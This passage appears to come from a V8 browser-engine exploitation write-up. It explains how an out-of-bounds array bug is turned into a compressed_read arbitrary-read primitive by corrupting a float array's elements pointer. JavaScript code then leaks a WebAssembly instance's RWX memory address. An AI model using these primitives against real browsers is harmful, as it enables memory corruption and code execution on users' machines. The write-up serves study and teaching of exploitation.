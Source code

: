 
### **Compressed_Read**
Earlier we have the following plan,

> To summarize the exploitation plan, we should see if we can leverage the OOB to
> 1. create `addrOf` primitive
> 2. create `compressed_read` function which can be done by corrupting `backing_store pointer`.

With `addrOf` completed, we can now head on to do the `compressed_read`. This should allow us to get values from the address that we specify specifically for leaking the rwx address. One way that we can do that is to overwrite the elements pointer to point to the address that we want.

The following illustration should clarify some doubts.

![compressRead.jpg](compressRead.jpg)

We can easily overwrite the element pointer to point to the address of `wasmInstance` + 0x68 which points to the value of the rwx address and then we have to subtract 0x8. This means we now need to find the index of the element of the `float_arr`. We can use `%DebugPrint` to get the value during the initialization of `p` and in this case, we can find it at index 12.

```js

const float_arr_ele_index = 12;

function compress_read(addr, isLower) {
    // save a backup for restoration just in case something goes wrong
    backup = oob_Array[float_arr_ele_index];
    // Set to the pointer address that we want to read from
    var temp = new Int64(addr) - 8;
    oob_Array[float_arr_ele_index] = new Int64(temp).asDouble();
    value = Int64.fromDouble(float_arr[0]); // access the array to read from the element
    oob_Array[float_arr_ele_index] = backup; // restore the values
    if (isLower == true) {
        return value = value.toString().slice(10, 18);
    } else if (isLower == false) {
        return value = value.toString().slice(2, 10);
    }
    return value.toString();
}
```
  
With this, we can test by reading the value of rwx memory address and add to the base. After that, we can clarify to make sure that the memory is correct.

```js
wasmInstanceAddr = heapBase + addrOf(wasmInstance, true);
wasmInstanceAddr = new Int64(wasmInstanceAddr) - 1 + 0x68; // +0x68 to get to the actual location and -1 due to pointer compression once again.
  
const rwxAddress = compress_read(wasmInstanceAddr, null).slice(0, -2);
console.log("[+] wasmInstanceAddr : " + heapBase + Int64.fromDouble(wasmInstanceAddr).toString().slice(10,18)   );
console.log("[+] RWX Address : " + rwxAddress);
```
  